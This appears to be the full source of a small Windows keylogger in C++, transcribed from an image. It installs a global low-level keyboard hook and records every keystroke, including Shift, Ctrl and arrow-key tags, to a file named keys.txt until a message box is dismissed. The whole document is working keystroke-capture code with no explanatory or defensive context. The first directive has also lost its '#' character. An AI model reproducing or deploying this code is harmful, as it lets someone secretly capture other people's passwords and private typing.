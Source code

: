 define _WIN32_WINNT 0x0500
#include<fstream>
#include<windows.h>
using namespace std;
ofstream out("keys.txt", ios::out);
LRESULT CALLBACK keyboardHookProc(int nCode, WPARAM wParam, LPARAM lParam) {
  PKBDLLHOOKSTRUCT p = (PKBDLLHOOKSTRUCT) (lParam);
	
	// If key is being pressed
	if (wParam == WM_KEYDOWN) {
		switch (p->vkCode) {
			// Invisible keys
			case VK_CAPITAL:	out << "<CAPLOCK>";		break;
			case VK_SHIFT:		out << "<SHIFT>";		break;
			case VK_LCONTROL:	out << "<LCTRL>";		break;
			case VK_RCONTROL:	out << "<RCTRL>";		break;
			case VK_INSERT:		out << "<INSERT>";		break;
			case VK_END:		out << "<END>";			break;
			case VK_PRINT:		out << "<PRINT>";		break;
			case VK_DELETE:		out << "<DEL>";			break;
			case VK_BACK:		out << "<BK>";			break;
			case VK_LEFT:		out << "<LEFT>";		break;
			case VK_RIGHT:		out << "<RIGHT>";		break;
			case VK_UP:			out << "<UP>";			break;
			case VK_DOWN:		out << "<DOWN>";		break;
			// Visible keys
			default:
				out << char(tolower(p->vkCode));
		}
	}
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd) {
	// Set windows hook
	HHOOK keyboardHook = SetWindowsHookEx(
		WH_KEYBOARD_LL,
		keyboardHookProc,
		hInstance,
		0);
	MessageBox(NULL, "Press OK to stop logging.", "Information", MB_OK);
	out.close();
	return 0;
}
